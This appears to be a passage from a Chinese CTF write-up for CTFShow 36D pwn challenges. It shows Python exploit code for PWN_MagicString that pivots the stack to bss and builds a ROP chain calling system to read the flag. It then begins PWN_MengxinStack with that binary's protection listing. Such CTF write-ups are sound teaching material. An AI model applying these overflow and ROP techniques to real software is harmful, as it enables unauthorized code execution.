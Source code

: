 栈迁移后，通过`gets`在`bss`段布置`rop`链和字符串，就可以在`bss`段完成`rop`攻击拿到shell了。

全部流程如下：

```python
# rop1
offset = 680-8
payload = 'A'*offset
payload += p64(elf.bss()+0x800)
payload += p64(prdi) + p64(elf.bss()+0x800) + p64(0x4006c1) 
ru('Throw away ida pro!!! I want a girlfriend!\n')
sl(payload)
```

> 栈迁移，通过`pop rdi;ret`这个gadget设置`gets`的参数。

```python
# rop2
pl2 = 'AAAAAAAA'+ p64(prdi+1) + p64(prdi) + p64(elf.bss()+0x828) + p64(elf.sym['system']) + 'base64<flag\0\0\0\0\0'
sl(pl2)
```

> 这里因为不知道是不是和签到一样，有过滤了，就执行的base<flag

> `system`用的栈空间比较大，所以选用`bss+0x800`

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/CTFShow-36D/pwn/PWN_MagicString) 

啊~好像有后门，我没看见....

## PWN_MengxinStack (526pt)

- 题目描述：
  
    > none
    
- 题目附件：[mengxin](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/CTFShow-36D/pwn/mengxin/mengxin)

- 考察点：ret2libc_start_main

- 难度：中等

### 程序分析

#### 保护机制

```c
[*] '/home/taqini/Downloads/36D/mengxin/mengxin'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
